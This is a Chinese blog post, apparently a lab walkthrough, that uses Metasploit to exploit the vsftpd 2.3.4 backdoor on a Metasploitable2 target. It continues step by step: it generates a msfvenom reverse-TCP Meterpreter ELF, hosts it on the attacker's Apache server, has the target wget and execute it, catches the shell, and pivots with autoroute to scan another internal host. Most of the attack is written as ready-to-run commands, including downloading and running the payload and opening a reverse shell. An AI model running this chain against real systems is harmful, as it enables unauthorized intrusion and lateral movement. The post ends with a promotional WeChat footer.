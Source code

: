 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
lock: need
---
```


# Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机：Metasploitable2 192.168.109.140

内网另一主机： Metasploitable2 192.168.109.159

工具：Metasploit

## 开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.109.140
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.159

**为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。**

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

接下来就对这个网络中IP地址为192.168.109.159的主机使用auxiliary/scanner/portscan/tcp辅助模块进行一次端口扫描

## 对内网主机192.168.109.159进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.159
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.159，从而无需反复输入这个命令。

由输出可知，在192.168.109.159上运行着很多服务，而且80端口是开放的。接下来使用auxiliary/scanner/http/http_version来验证目标主机在80端口上运行的服务。

## 验证192.168.109.159 80端口运行的服务

```
use auxiliary/scanner/http/http_version
show options
set RHOSTS 192.168.109.159
run
```

由输出可知，在主机80端口上运行的是Apache2.2.8服务器，其中的PHP 5.2.4版本是存在漏洞的，可以被攻击者获取对目标系统的控制。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
